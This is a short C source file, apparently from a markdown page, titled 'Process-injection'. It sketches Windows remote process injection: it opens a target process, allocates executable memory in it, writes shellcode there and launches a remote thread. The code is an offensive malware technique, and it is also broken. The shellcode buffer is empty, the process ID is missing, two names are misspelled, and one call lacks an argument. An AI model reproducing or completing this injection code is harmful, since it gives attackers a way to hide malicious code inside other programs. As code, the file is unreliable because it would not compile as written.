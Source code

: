 # Process-injection

#include <stdio.h>
#include <windows.h>

int main()
{
    char shellcode[] = {};
    HANDLE hProcess;
    HANDLE hThread;
    void* exec_mem;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, );
    exec_mem = VirtualAllocEX(hProcess, NULL, sixeof(shellcode) , MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, exec_mem, sizeof(shellcode));
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, 0);
    CloseHandle(hProcess);
    return 0;

}
